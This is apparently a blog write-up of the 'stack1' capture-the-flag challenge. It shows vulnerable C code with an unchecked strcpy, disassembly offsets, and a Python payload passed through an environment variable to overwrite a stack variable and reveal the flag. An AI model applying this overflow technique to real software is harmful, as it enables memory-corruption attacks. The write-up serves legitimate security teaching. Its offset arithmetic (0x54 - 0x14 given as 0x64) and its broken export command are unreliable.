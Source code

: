 ```yaml
---
title:  "Writeup: stack1"
date:   2019-03-26 09:00:00
categories: writeup 
layout: post
author: Tim Winters
---
```


The stack1 challenge is very similar to stack0. We have a variable `modified` that is set to 0, but is checked against a non-zero value.  Examining the code we see a call to `strcpy` thaat writes the value of environment variable `GREENIE` into `buffer`. We will use this unchecked call to exploit the code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;
  FILE *fp;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;
  strcpy(buffer, variable);
  fp  = fopen("./flag.txt", "r");

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
      fgets(buffer, 64, (FILE*)fp);
      printf("flag: %s\n", buffer );
      exit(0);
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```


Let's start by determining the addresses of our variables.

```asm
...
   0x080485c1 <+70>:	push   DWORD PTR [ebp-0xc]
   0x080485c4 <+73>:	lea    eax,[ebp-0x54]
   0x080485c7 <+76>:	push   eax
   0x080485c8 <+77>:	call   0x8048400 <strcpy@plt>
...   
```
Here we have the instructions that set up the stack for the call to `strcpy`. x86 conventions say that the arguments are put on the stack in reverse order. Therefore, `ebp-0x54` is the address of `buffer`. 

Later on we see 

```asm
0x080485e8 <+109>:	mov    eax,DWORD PTR [ebp-0x14]
0x080485eb <+112>:	cmp    eax,0xd0a0d0a
```
This comparison matches up with the comparison of `modified` in the source code. `ebp-0x14` is the address of our modified variable. 

`0x54 - 0x14` = `0x64`. We need 64 bytes of data before we start overwriting our variable. 

To properly write the value of `0xd0a0d0a` it is not enough to simple have our input be `"...aad0a0d0a"`. This will not write the raw bytes, but rather the ascii bytes of the characters. Instead, we can use python to create these literals. 

```
> python -c "import struct; print 'a'*64 + struct.pack('I', 0xd0a0d0a)"
```

It is not enough to simply pass this into `stdin`. Looking at the source code, it pulls our overflowing text from the `GREENIE` environment variable. To set it 

``export GREENIE=`python -c "import struct; print 'a'*65 + struct.pack('I", 0xd0a0d0a)"` ``

Then run the executable normally

```
> ./stack1
you have correctly modified the variable
flag: adec00ee873ae277be6a5548188d80d6
```
